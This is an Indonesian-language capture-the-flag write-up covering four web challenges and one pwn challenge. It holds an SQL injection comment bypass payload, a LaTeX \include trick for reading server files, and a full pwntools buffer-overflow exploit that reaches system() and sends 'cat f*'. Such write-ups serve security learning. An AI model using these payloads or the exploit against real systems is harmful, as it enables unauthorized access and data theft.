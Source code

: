 # web
---
## Scanbook

pada website ini kita diberikan url website, dimana website ini merupakan sebuah web app, untuk menyimpan note dan menyimpan datanya menggunakan qrcode. Jadi kita hanya perlu menggenerate qrcode dengan angka 0, di cyberchef https://gchq.github.io/CyberChef/#recipe=Generate_QR_Code(%27PNG%27,5,2,%27Medium%27)&input=MA, dan upload ke website tersebut. Yay kita mendaptkan flagnya

![](Pasted%20image%2020221107060800.png)

## buckeyenotes

kita diberikan website yang vulnerable dengan sql injection, dan kita disuruh untuk mengambil note dari spesifik user

![](Pasted%20image%2020221107060238.png)

cukup kita bypass menggunakan "brutusB3stNut9999'--"

bypass menggunakan comment pada sql

## textual

diketahui flag ada di current directory server, karna app ini menggunakan latex dan di latex ada fungsi untuk menambah latex lain menggunakan fungsi `\include`, kita bisa memanfaatkannya untuk membaca flag di current directory.

![](Pasted%20image%2020221107060336.png)

## pong

Didalam challenge kita diberikan url yang menuju website yang berisi game ping pong didalamnya.

![](Pasted%20image%2020221107060408.png)

Dalam challenge ini tujuan kita adalah untuk mengalahkan lawan kita. Setelah melihat source code menggunakan developer tools, kita mengetahui bahwa proses game ini dilakukan pada client, sihingga kita bisa mengubah beberapa parameter dalam game.
Untuk source code index, bisa kalian lihat disini: https://pastebin.com/vKbP48ZR

Jadi untuk menyelesaikan challenge ini saya merubah parameter bvx menjadi 100, agar bola masuk ke gawang lawan, dan kita bisa memenangkan game ini.

![](Pasted%20image%2020221107060436.png)

kita continue dari breakpoint, dan boom, kita mendapatkan flagnya

![](Pasted%20image%2020221107060452.png)

# pwn
---
## Samurai

Kita diberikan source code, dimana kita perlu mencocokkan variable outcome dengan hex 0x4774cc, untuk mendapatkan shell.

```c
    if(outcome == 0x4774cc) {
        char* finisher = malloc(8);
        scroll(txt[3]);
        fgets(finisher, 8, stdin);
        system(finisher);
    }
```

exploit

```python
from pwn import *
import sys
from Crypto.Util.number import long_to_bytes

context.binary = exe = ELF(f"./samurai", checksec=False)
context.terminal = "konsole -e".split()
context.log_level = "INFO"
context.bits = 64
context.arch = "amd64"


def init():
    if args.RMT:
        p = remote(sys.argv[1], sys.argv[2])
    else:
        p = process()
    return Exploit(p), p


class Exploit:
    def __init__(self, p: process):
        self.p = p

    def debug(self, script=None):
        if not args.RMT:
            if script:
                attach(self.p, script)
            else:
                attach(self.p)

    def sendName(self, content):
        p = self.p
        p.sendline(content)
    
    def waitForName(self):
        p = self.p
        p.recvuntil(b"what was it again?")

def main():
    x, p = init()
    """
    karna pada source code ada baris seperti dibawah ini:

    strcpy(response + strlen(response) - 1, ".\n");

    kita harus membuat null-byte di awal, agar address yang ingin kita rubah,
    tidak ter-overwrite dengan newline.
    """
    pay = b"\x00"+b"A"*29
    pay += b"\xcc\x74\x47\x00"
    pay +=b"A"*2
    x.sendName(pay)
    x.debug("break *main+203\nc")
    x.waitForName()
    """
    
    char* finisher = malloc(8);
    
    kita hanya bisa mengirim sebanyak 8 byte,
    jadi kita menggunakan asterisk "*" untuk membaca flagnya
    """
    p.sendline(b"cat f*")
    p.interactive()
    
if __name__=="__main__":
    main()
```

